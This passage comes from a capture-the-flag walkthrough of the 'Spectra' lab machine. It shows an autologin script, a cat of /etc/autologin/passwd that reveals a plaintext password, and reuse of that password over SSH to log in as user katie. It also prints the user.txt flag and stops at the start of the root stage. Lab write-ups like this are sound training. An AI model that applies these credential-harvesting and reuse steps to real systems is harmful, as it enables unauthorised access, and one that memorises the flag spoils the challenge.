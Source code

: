       # Read password from file. The file may optionally end with a newline.
      for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
        if [ -e "${dir}/passwd" ]; then
          passwd="$(cat "${dir}/passwd")"
          break
        fi
      done
      if [ -z "${passwd}" ]; then
        exit 0
      fi
      # Inject keys into the login prompt.
      #
      # For this to work, you must have already created an account on the device.
      # Otherwise, no login prompt appears at boot and the injected keys do the
      # wrong thing.
      /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter

Analysing the script we see that 'Read password from file' /etc/autologin/passwd.
  nginx@spectra /opt $ cat /etc/autologin/passwd
    SummerHereWeCome!!


4. Try the password on our different users (katie:SummerHereWeCome!! is correct) and grab user.txt.

  [root:/git/htb/spectra]# ssh katie@spectra.htb
    Password: SummerHereWeCome!!
    katie@spectra ~ $ id
      uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
    katie@spectra ~ $ cat user.txt
      e89d27fe195e9114ffa72ba8913a6130



██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. As usual, we try 'sudo -l' to see if we can grab a easy root.
